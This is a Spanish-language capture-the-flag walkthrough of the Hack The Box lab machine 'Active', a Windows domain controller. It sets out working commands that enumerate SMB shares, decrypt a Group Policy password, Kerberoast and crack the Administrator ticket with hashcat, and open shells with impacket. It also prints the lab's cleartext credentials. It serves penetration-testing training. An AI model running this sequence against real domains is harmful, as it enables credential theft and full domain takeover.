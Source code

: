 ![active](https://github.com/user-attachments/assets/153e586a-d124-40c4-8467-0c252b4a0396)

Comenzamos enumerando puertos abiertos con nmap.

``sudo nmap 10.10.10.100 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![Pasted image 20250313105053](https://github.com/user-attachments/assets/43fe3451-31a8-4d10-bf9b-ab638880287d)

Dados los puertos abiertos, tiene bastante pinta de que es un DC. No obstante, vamos a ver qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.10.100 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49163,49174,49176 -oN target``

![Pasted image 20250313105216](https://github.com/user-attachments/assets/691c6de4-1102-426b-a453-331ef7769073)

Confirmamos que es un DC. A su vez, podemos empezar a ver cositas, como que el dominio es active.htb. Para recopilar un poquito más de información vamos a hacer uso de netexec.

``netexec smb 10.10.10.100``

![Pasted image 20250313105324](https://github.com/user-attachments/assets/d9c8b691-10ab-4097-9e7c-e6c6764f03d7)


Nombre máquina: DC

Dominio: active.htb

Añadimos esta información al /etc/hosts.

![active etchosts](https://github.com/user-attachments/assets/13591f9d-94c3-4bbe-ad59-c2e98c30f03e)



Para continuar enumerando información que pueda ser de utilidad, vamos a intentar ver qué recursos se están compartiendo:

``netexec smb 10.10.10.100 -u '' -p '' --shares``

![Pasted image 20250313105631](https://github.com/user-attachments/assets/b0ac3808-30c1-4906-bb42-ea78c529c128)

Tenemos permisos de lectura en el recurso Replication, lo cual es llamativo. Vamos a echar un vistazo con null sesion.

``smbclient //10.10.10.100/REPLICATION -N``

![Pasted image 20250313105732](https://github.com/user-attachments/assets/a6766483-809e-4362-9980-871fa73e4d44)


active.htb -> Parece la estructura de SYSVOL

Para echarle un ojo más a fondo, vamos a traernos todo lo existente a la máquina atacante.

``recurse ON``

``prompt OFF``

``mget *``

A medida que se van descargando, si nos fijamos, hay algo que llama la atención:

![Pasted image 20250313110008](https://github.com/user-attachments/assets/445fc4b7-ad78-4b6f-9e18-6d7145aaa9ff)

groups.xml. Este archivo es muy jugoso porque a veces tiene contraseñas.

Si queremos ver la estructura de todos los datos descargados:

``tree .``

![Pasted image 20250313110146](https://github.com/user-attachments/assets/36f7f9ba-e4f8-412d-bad0-07a559d358e5)


Y si echamos un vistazo a Groups.xml : 

![Pasted image 20250313112056](https://github.com/user-attachments/assets/b5212019-0655-4aea-8ac4-f692c9609db0)


Vemos claramente una referencia al usuario SVC_TGS y la contraseña encriptada. Para poder romperla hacemos uso de la utilidad ``gpp-decrypt``.

``gpp-decrypt 'CLAVE'``

![Pasted image 20250313110557](https://github.com/user-attachments/assets/5912c20f-0c5f-4546-b198-6bdd4d4749f8)

Tenemos la contraseña, y por tanto, las posibles credenciales -> SVC_TGS : GPPstillStandingStrong2k18

Vamos a ver si son válidas con netexec.

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'``

![Pasted image 20250313112339](https://github.com/user-attachments/assets/a5c35665-312e-4765-a205-5eb2844b4152)

Nos pone [+], por lo que son credenciales válidas. Una vez sabemos esto, podemos seguir husmeando para ver qué se esta compartiendo para este usuario por SMB:

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares``

![Pasted image 20250313112616](https://github.com/user-attachments/assets/549749d1-e6be-416f-8217-3ebeb729393b)

Lo único que puede parecer interesante, a priori, es el directorio Users. Si nos conectamos con smbclient con estas credenciales, vemos que es el directorio C:\Users. De hecho, podemos acceder a user.txt dentro del directorio SVC_TGS, pero en un escenario como el de la OSCP no sirve con obtener la flag de esta forma porque no tenemos una consola interactiva.

![Pasted image 20250313113410](https://github.com/user-attachments/assets/b6d57e01-b7de-4d52-9259-0a1bd3610480)


Vale, tenemos unas credenciales válidas, pero no tenemos forma de conectarnos: no hay winRM, no hay RDP y no podemos hacer uso de psexec/wmiexec por falta de privilegios.

Como tenemos credenciales, podemos probar kerberoasting para ver si capturamos algún hash de otro usuario:

``impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
-> Password: GPPstillStandingStrong2k18

![Pasted image 20250313113615](https://github.com/user-attachments/assets/f4706d60-a0de-41cf-9c9a-91cafd9cb652)

Ojo. Tenemos el TGS del usuario Administrator. Si conseguimos descifrarlo, está hecho. Nos copiamos el contenido en un archivo. Ej: admintgs

![Pasted image 20250313113715](https://github.com/user-attachments/assets/8227a23b-c816-423c-ad2a-4005e2827743)


Buscamos en hashcat el código para el TGS-REP (``krb5tgs$23$``):

``hashcat --help | grep -i "kerberos"

![Pasted image 20250313113850](https://github.com/user-attachments/assets/b2a5f526-064c-4dc2-8aee-580aefedcf44)


Lanzamos hashcat con rockyou como diccionario.

``hashcat -m 13100 admintgs /usr/share/wordlists/rockyou.txt --force``

![Pasted image 20250313114050](https://github.com/user-attachments/assets/59f199dd-b2a9-40a7-bfc7-c3b4a81a97d9)

Lo ha sacado. Tenemos contraseña del usuario Administrator : Ticketmaster1968

Validamos credenciales con netexec:

``netexec smb 10.10.10.100 -u 'administrator' -p 'Ticketmaster1968'``

![Pasted image 20250313114156](https://github.com/user-attachments/assets/1be287e2-09ac-4782-a19a-8cf09a160c3b)


Nos aparece pwned para smb, por lo que podríamos utilizar wmiexec (para acceder como administrator) y psexec (para acceder como nt authority\system):

Ejemplos:

``impacket-wmiexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![Pasted image 20250313114352](https://github.com/user-attachments/assets/2cca26a5-0223-4896-8e68-da09618d474c)


``impacket-psexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![Pasted image 20250313114422](https://github.com/user-attachments/assets/30e28b9a-5b7b-40e2-a6b5-2e79a666ea4d)



Recogemos la flag de usuario en: C:\Users\SVC_TGS\Desktop:

![Pasted image 20250313114638](https://github.com/user-attachments/assets/76f66d12-22bb-4793-83fb-eb4b9e74e767)


Y por último, recogemos la flag de Administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250313114758](https://github.com/user-attachments/assets/a314fe8e-b238-46cb-b847-ed247098f76e)
